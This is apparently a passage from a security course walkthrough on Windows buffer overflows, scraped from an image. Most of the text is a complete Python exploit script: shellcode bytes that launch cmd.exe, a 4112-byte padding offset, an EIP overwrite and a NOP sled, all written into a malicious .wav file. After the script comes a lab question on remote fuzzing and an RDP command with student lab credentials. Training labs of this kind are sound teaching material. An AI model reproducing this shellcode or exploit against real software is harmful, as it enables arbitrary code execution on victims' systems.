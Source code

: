 ```python
    with open("chars.wav", "wb") as file:
        file.write(payload)

from struct import pack
def exploit():
    buf =  b""
    buf += b"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b"
    buf += b"\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7"
    buf += b"\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf"
    buf += b"\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c"
    buf += b"\x8b\x4c\x11\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01"
    buf += b"\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6\x31"
    buf += b"\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03\x7d"
    buf += b"\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66"
    buf += b"\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0"
    buf += b"\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f"
    buf += b"\x5f\x5a\x8b\x12\xeb\x8d\x5d\x6a\x01\x8d\x85\xb2\x00"
    buf += b"\x00\x00\x50\x68\x31\x8b\x6f\x87\xff\xd5\xbb\xf0\xb5"
    buf += b"\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a"
    buf += b"\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53"
    buf += b"\xff\xd5\x63\x6d\x64\x2e\x65\x78\x65\x00"

    offset = 4112
    buffer = b"A" * offset
    EIP = pack('<L', 0x00457418)
    NOP = b"\x90" * 32
    payload = buffer + EIP + NOP + buf

    with open('exploit.wav', 'wb') as file:
        file.write(payload)

exploit()
```

# Remote Fuzzing

## Question 1

### "Try the gradual remote fuzzing exercise shown above. What is the payload size that crashes the program 'in bytes'?"

Students first need to RDP into the Windows spawned target machine using `xfreerdp` (or any other tool, such as `Remmina`) with the credentials `htb-student:Academy_student!`:

Code: shell

```shell
xfreerdp /v:STMIP /u:htb-student /p:Academy_student!
```
